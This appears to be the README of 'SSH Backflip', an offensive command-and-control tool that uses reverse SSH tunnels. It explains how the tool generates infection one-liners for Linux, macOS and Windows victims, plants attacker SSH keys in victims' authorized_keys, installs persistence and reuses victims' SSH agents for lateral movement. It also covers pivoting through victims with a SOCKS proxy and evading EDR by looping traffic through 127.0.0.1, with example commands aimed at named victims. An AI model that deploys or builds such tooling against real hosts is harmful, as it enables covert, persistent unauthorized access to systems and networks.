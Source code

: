 # The SSH Backflip <br>
<br>
The SSH Backflip is a convenient mechanism for Command and Control based on SSH and offering features such as:<br>
* Living Of the Land <br>
* Accepted in more places than even mastercard <br>
* Strong traffic encryption <br>
* Key based authentication <br>
* CLI access <br>
* File transfers <br>
* SOCKS proxy <br>
* SSH agent reuse (as in, "reuse the victim's ssh agent for lateral movement") <br>


## WTF <br>
What we call an SSH Backflip is nothing more than some clever use of SSH.<br>
We start by establishing an outbound SSH connection from the victim to our C2 server. This outbound conection establishes an "ssh tunnel" configured to forward a port from the victim host back to the C2 server. To prevent the connecting victim from running commands on the C2 server we use a carefully crafted systemd configuration to sandbox the C2 instance of sshd. Additionally, the "flip" user is configured without a shell.<br> We do a port forward of TCP/22 (ssh) from the victim to TCP/400x on the C2 server. For each new victim we assign a new port, for example 4001, 4002, 4003, etc. This allows us to expose multiple victims' SSH endpoints on the C2 server side.<br>

Authentication is key-based and we allocate a unique set of keys per victim. Each set of (public-private) keys serve dual purpose: they allow us to authenticate the victim's connection to the C2 server and at the same time allow us to login on the victim system.<br>

To run commands on the victim workstation we simply start an SSH session on the C2 server connecting to the local port assigned to the desired victim.<br>

Outbound SSH connections are usually whitelisted by corporate firewalls. Also, they draw less attention than inbound SSH connections. Because we are connecting to the victim's SSH port through the tunnel, our connection into the victim will appear to come from the victim itself (127.0.0.1) and likely be ignored by HIPS and EDR.<br>


## Components

To use the SSH backflips you'll need:
* SSH server for backflips (with the right configurations).
* User to associate with and authenticate incoming backlfips connections. We like to name it "**flip**".
* Python scripts to manage backflips and generate "backflip payloads" used to infect victims.
* Payload templates for the different systems you want to backflip, we include linux (python 2 and 3), macos (bash) and windows (powershell)
* Configuration file "etc/backflips.conf" which stores parameters needed by the above mentioned Python scripts.
* SSH config file "etc/backflips_db" that serves as a database for storing backflip connections.



### etc/backflips.conf
This stores the basic configurations for generating new backflips. The default configuration looks as follows:<br>
```
[DEFAULT]
backflipServer = redteamexample.com
backflipPort = 2222
backflipUser = flip
backflipPath = /opt/backflips/
```

At a minimum you should customize the "backflipServer" with the FQDN you want to use for C2. <br>
The "backflipPath" is the base location on the server's filesystem where you have installed the SSH backflip files.

### sshbackflip.py
The first time you run the sshbackflip.py script you should try it with the `--help` argument. This will acomplish 2 things:<br>
1. Check and setup any necessary files that are missing
2. Display the help and orient you on how to use the tool
<br><br>
#### The "new" command
The sshbackflip python script is used to setup a **new** backflip, meaning: create a new set of keys, designate a port on the C2 server to map the SSH port forwarded by the victim, and output a script (one-liner when possible) that you can run on the victim host to infect them.The infection process should install the backflip (taking care of dropping ssh keys, starting the connection and setting up a persistence mechanism).<br> It supports outputing scripts for: linux (python2 and python3), macos and windows.<br>
Example usage:<br>
`python3 sshbackflip.py new -b redteamexample.com -p 4001 -u johndoe -t victimcomputer1 -o linux`<br><br>
This command will setup a new backflip and output a script to target the user "johndoe" on the host "victimcomputer1". It's up to you to convince "John" to run the script. When "johndoe" executes the script on their host it will do an SSH backlfip, connecting back to our C2 server "redteamexample.com" and port forwarding it's port 22 to our port 4001.<br>
* You can actually omit the -b and the script will use the default FQDN you defined in backflips.conf.<br>
* You can also omit -u if you don't know the victim's username ahead of time and the script will use a random word. See "the faceplant" bellow.<br>
* You can omit -p as well and let the script select the first available port in the range of 4001-4999.<br>

sshbackflip.py will save the set of keys for this backflip instance in the `keys/` directory (under the backflips base directory).<br>
Aditionally it will save a copy of the infection script in the `payloads/` directory.<br><br>
#### The "faceplant"
You need to know the username that ran the payload and got infected. The reason is that our malicious SSH keys got added to their SSH "authorized_keys" file and when we connect to their host to get a shell we will login to their account. So what happens if you didn't know the username in advance and you didn't specify it when you setup the new backflip? Don't worry, the first time the payload executes on the victim host it leak the data to us. This is achieved by making an SSH connection attempt from the victim to the C2 server with the victim's username and a random locator word. The connection will fail due to "incorrect username" and we'll see this in our C2 SSH server logs. We affectionately call this a "faceplant".<br>
You can check the logs to find faceplant like this:<br>
`sudo journalctl -S -u ssh-backflips |grep -i "<random locator word>"`<br>
Once you know the correct username of the victim you can update the User data in `etc/backflips_db`. (We should probably automate this, there's an opportunit for you to contribute some code to the project). <br><br>
#### The "connect" command
If the victim succesfuly ran the infection script and are currently connected to the C2 server, you can SSH to their computer and get a shell with the "connect" command and indicating the "target" hostname.<br>
Example usage:<br>
`python3 sshbacklfip.py connect -t vicitmcomputer`<br><br>

#### The "list" command
If you forgot the "target name" of the victim computer you can use the list command to get a listing of all the backflips contained in `etc/backflips_db`.<br>
Example usage:<br>
`python3 sshbackflip.py list`<br><br>

#### The "delete" command
If you wish to delete a victim host record from `etc/backflips_db` you can use the included "delete" command. This will not delete the keys from `etc/keys`.<br>
Example usage:<br>
`python3 sshbackflip.py delete -t victimcomputer`<br><br><br>

#### The "socks" command
Manages the SOCKS proxy over backflip, which allows you, the attacker, to proxy traffic through the victim's computer into whatever network they're connected to. <br>
The subcommand --enable enables the SOCKS proxy by making an SSH connection to the victim's computer with the -D flag. This connection is kept alive by a little service which employs autossh. The service is configured and managed as a systemd unit. <br>
The subcommand --disable stops the SOCS proxy for the backflip instance you select and removed the systemd service unit file.<br><br><br>

### Templates and stuff
The "payloads" generated by `sshbackflip.py` are based on templates (jinja2) you can find under `sshbackflip/linux` or `sshbackflip/macos` or `sshbackflip/windows` depending on the OS they target.<br>
If you want to adjust their behavior or add new go ahead and play with the templates over there.<br>
You'll notice that the **windows** subfolder includes a copy of win32-openssh for use in case the victim windows host doesn't already have OpenSSH installed. We grabbed it from here: https://github.com/PowerShell/Win32-OpenSSH/releases. If you want you can modify the template to download the latest release from github directly on the victim host.<br>


## Things to Note

* Port numbers for socks proxies will need to be managed out of band. Implement a process and use it.<br>
* You are running an additional ssh server that your victims ssh to. This can be abused by somebody who has control of the victim machine. While shell access is disabled, the service is sandboxed, and only port forwarding will work, one should be aware of this caveat.<br>
